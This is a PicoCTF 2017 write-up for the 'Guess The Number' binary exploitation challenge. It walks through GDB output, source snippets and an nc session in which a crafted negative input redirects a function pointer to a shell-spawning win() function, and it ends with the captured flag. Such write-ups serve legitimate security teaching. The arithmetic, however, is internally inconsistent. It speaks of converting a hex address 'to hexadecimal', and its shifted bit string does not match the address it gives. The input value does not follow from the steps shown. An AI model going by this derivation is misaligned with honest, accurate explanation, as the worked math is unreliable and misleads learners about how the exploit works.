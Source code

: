 # PicoCTF_2017: Guess The Number

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:13532.

**Hint:**

>What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...

## Write-up
This challenge tests your knowledge on two's complement, bit-shifting and GDB magick. First, let's look at the source code. We really want to `win()`.

    void win(void) {
        printf("Congratulations! Have a shell:\n");
        system("/bin/sh -i");
    }

GDB time!

    $ gdb guess_num
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from guess_num...(no debugging symbols found)...done.
    (gdb) info address win
    Symbol "win" is at 0x4006cd in a file compiled without debugging.

Converting `0x4006cd` to hexadecimal gives us `4196045` or `10000000000011011001101`. We need to be able to call upon `((void (*)(void))val)();` to `win()` it, so now we have to figure out how to make `val` point to `win()`.

    val = strtol(buf, NULL, 10);
    printf("You entered %d. Let's see if it was right...\n", val);
    val >>= 4;

We see that `val` gets checked for overflow, and then bit shifted right 4 places. So let's do the same for our pointer, by shifting left 4 places.

    1000000001001000010100101011
    10000000010010000101001010110000 <- add 4 0s

However, now the binary is too large to enter into the system! But wait! We have two's complement and negative numbers to help us!

    10000000010010000101001010110000
    -2142743888

    $ nc shell2017.picoctf.com 13532
    Welcome to the number guessing game!
    I'm thinking of a number. Can you guess it?
    Guess right and you get a shell!
    Enter your number: -2142743888
    You entered -2142743888. Let's see if it was right...
    Congratulations! Have a shell:
    /bin/sh: 0: can't access tty; job control turned off
    $ ls
    flag.txt
    guess_num
    xinetd_wrapper.sh
    $ cat flag.txt
    eb485c1755fc97d4a3f0c3cc136f62e8

Therefore, the flag is `eb485c1755fc97d4a3f0c3cc136f62e8`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxNzY1NDczOCw2NjE2MjI5ODBdfQ==
-->